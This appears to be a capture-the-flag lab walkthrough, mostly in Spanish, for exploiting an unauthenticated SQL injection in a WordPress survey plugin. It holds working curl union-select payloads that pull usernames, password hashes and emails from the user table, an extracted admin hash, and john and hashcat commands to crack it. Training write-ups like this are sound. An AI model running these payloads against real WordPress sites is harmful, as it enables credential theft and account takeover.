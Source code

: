 # Walk: SQL Injections Attacks - Module Exercise - VM 1 

## Fecha: 25/01/2025
## Host: Ubuntu
## IP: 192.168.136.47

---

## Objetivo
**Capstone Lab:** Enumerate the Module Exercise - VM #1 and exploit the SQLi vulnerability to get the flag.

---
## Herramientas
1. sqlmap
2. burpsuite
3. gobuster
---
## Procedimiento y comandos
1. Paso 1: Enumeracion:
	- **gobuster -u http://alvida-eatery.org/ -w /usr/shares/wordlists/big.txt -o result-vm1.txt**
	-  ** cat result-vm1.txt **
	/.htaccess            (Status: 403) [Size: 282]
	/.htpasswd            (Status: 403) [Size: 282]
	/server-status        (Status: 403) [Size: 282]
	/wp-admin             (Status: 301) [Size: 325] [--> http://alvida-eatery.org/wp-admin/]
	/wp-content           (Status: 301) [Size: 327] [--> http://alvida-eatery.org/wp-content/]
	/wp-includes          (Status: 301) [Size: 328] [--> http://alvida-eatery.org/wp-includes/]
 - Observamos el directorio **/wp-admin** el formulario de login
2. Paso 2: Luego de varios intentos fallidos con payloads manuales vamos por sqlmap:
	- **sqlmap -u "http://alvida-eatery.org/wp-login.php?redirect_to=http%3A%2F%2Falvida-eatery.org%2Fwp-admin%2F&reauth=1" --batch --risk=3 --level=5**
	- **--batch** : Responde automáticamente las preguntas de sqlmap.
	- **--risk=3**: Realiza pruebas más agresivas.
	- **--level=5**: Examina más parámetros y realiza más pruebas.
	- Paciencia...
	- despues de horas no devolvio nada interesante.
	- La enumeracion con wpscan devolvio un plugin con una version vulnerable a Unauthenticated SQL Injection: **Perfect Survey**
3. Paso 3: Buscamos la prueba de concepto:
	- https://wpscan.com/vulnerability/c1620905-7c31-4e62-80f5-1d9635be11ad/
	- y la implementamos en el login que obtuvo gobuster
	- **curl "http://alvida-eatery.org/wp-admin/admin-ajax.php?action=get_question&question_id=1%20union%20select%201%2C1%2Cchar(116%2C101%2C120%2C116)%2Cuser_login%2Cuser_pass%2C0%2C0%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%20from%20wp_users"**
	- En esta respuesta estan los datos del usuario admin: 
	Usuario: "admin"
	Contraseña hash: "$P$BINTaLa8QLMqeXbQtzT2Qfizm2P/nI0"
	- Adicionalmente podemos intentar extraer mails:
 	- **curl "http://alvida-eatery.org/wp-admin/admin-ajax.php?action=get_question&question_id=1 union select 1,1,group_concat(user_login,0x3a,user_email),null,null,null,null,null,null,null,null,null,null,null,null,null from wp_users"**
	
4. Paso 4: Extraer del hash con john el password del usuairo admin:
	- Guardamos el hash en un .txt
	- **john --formater=phpass hash.txt**
	- **john --wordlist=/usr/share/wordlists/rockyou.txt --format=phpass hash.txt**
	- **john --show hash.txt**
	- darle tiempo.... o usar hashcat:
	- **hashcat -m 400 -a 0 hash.txt /usr/share/wordlists/rockyou.txt**

---
## Troubleshooting

---

## Herramientas Alternativas
- [ ] **Herramienta 1:** Descripción breve (Comando)
- [ ] **Herramienta 2:** Descripción breve (Comando)
- [ ] **Herramienta 3:** Descripción breve (Comando)

